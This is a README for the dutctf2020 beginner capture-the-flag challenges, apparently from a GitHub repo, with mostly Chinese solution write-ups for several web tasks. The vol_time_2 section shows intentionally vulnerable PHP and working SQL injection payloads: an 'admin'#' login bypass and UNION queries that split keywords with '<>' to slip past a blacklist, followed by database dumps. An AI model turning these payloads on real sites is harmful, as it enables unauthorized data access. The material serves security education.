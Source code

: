 # dutctf
dutctf2020 source code

## notes
The challenges in this repo are real simple, with the goal of popularizing information security knowledge.

---- 
## web-tutorial 
### 方法1 
审查元素，发现按钮被禁用，去除disabled属性后点击按钮获得flag
### 方法2 
检查html源代码发现引用了web1.js，查看web1.js直接获得flag

---- 
## web1 
### 方法1  
审查元素，去除button的id=button1属性（或其他属性，如onmouseover或直接禁用相应css）后点击按钮获得flag
### 方法2
检查html源代码发现引用了混淆过的web2.js，上网寻找js反混淆器，对web2.js反混淆，直接获得flag

---- 
## web2
题目用golang编写，存放用户余额的变量用了int32（-2,147,483,648 到 2,147,483,647），且对用户输入过滤不完整，允许负整数输入，故输入超大负整数
以造成溢出（如-123123123），余额足够后购买flag

---- 
## vol_time_1
题目提示很明确，最基本的sql注入，原语句为`"SELECT * from user WHERE account='$username' AND psw='$password' LIMIT 0,1";`，核心为通过闭合引号或闭合引号并添加注释
来对原有的sql语句转义。提示中提到用“admin”账号登录，故构造payload：用户名为admin'#，则实际执行的sql语句为`SELECT * from user WHERE account=admin`，成功返回一条结果，
成功进入管理页面。

----
## vol_time_2
这是一道稍复杂的ctf sql注入题，首先尝试进行查询，发现只能查学号1，2，3的用户，且关键字如select，union等被过滤，故使用路径扫描器，如[dirsearch.py](https://github.com/maurosoria/dirsearch)，发现在项目根目录下有www.zip此处模拟的是开发者在上传源码后未将源码压缩包删除且nginx配置不合理），打开发现是个mvc架构的php应用，
进入controllers文件夹发现只有一个有效控制器Vol.php。
```
$num = $_POST['number'];             
//$num = intval($num);    //转下数据类型
$array = array('table','union','and','or','load_file','create','delete','select','update','sleep','alter','drop','truncate','from','max','min','order','limit');
foreach ($array as $value){
   if (substr_count($num, $value) > 0){
      exit('包含敏感关键字！');
   }
}
$sum = strip_tags($num);
$sql = "SELECT * from vt_bak WHERE stu_id={$num} LIMIT 1";
```
发现此段代码有逻辑问题，先进行了关键字检查再去除了成对尖括号。这样会导致sel<>ect被过滤成select。发现了漏洞。
同时由于返回的json是用返回纯数字下标数组的query方法生成的，相当于普通有回显的sql注入。
以下为payload：
出数据库:  
number=-1 unio<>n selec<>t 1,2,3,4,5,6,7,8,9,10,database()#
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

vol_time_2<\/p><\/td><\/tr>","all_time":6}
```
出表名
number=-1+unio<>n+sele<>ct+1,2,3,4,5,6,7,8,9,10,concat(group_concat(distinct+tab<>le_name))+fro<>m+info<>rmation_schema.ta<>bles+where+ta<>ble_sche<>ma='vol_time_2'#
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

flag,vt_bak<\/p><\/td><\/tr>","all_time":6}
```
发现flag表，出flag表列名
number=-1+uni<>on+sele<>ct 1,2,3,4,5,6,7,8,9,10,concat(group_concat(distinct+col<>umn_name))+f<>rom+info<>rmation_sc<>hema.colu<>m<>ns+where+tab<>le_schema="vol_time_2" a<>nd tab<>le_na<>me="fl<>ag"#+
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

flag,id<\/p><\/td><\/tr>","all_time":6}
```
发现flag字段，出内容
number=-1 uni<>on se<>lect 1,2,3,4,5,6,7,8,9,10,fla<>g fro<>m fl<>ag
```
{"name":"2","data":"
1<\/p><\/td>

2<\/p><\/td>

4<\/p><\/td>

5<\/p><\/td>

6<\/p><\/td>

8<\/p><\/td>

7<\/p><\/td>

dutctf{simple_logic_error}<\/p><\/td><\/tr>","all_time":6}
```
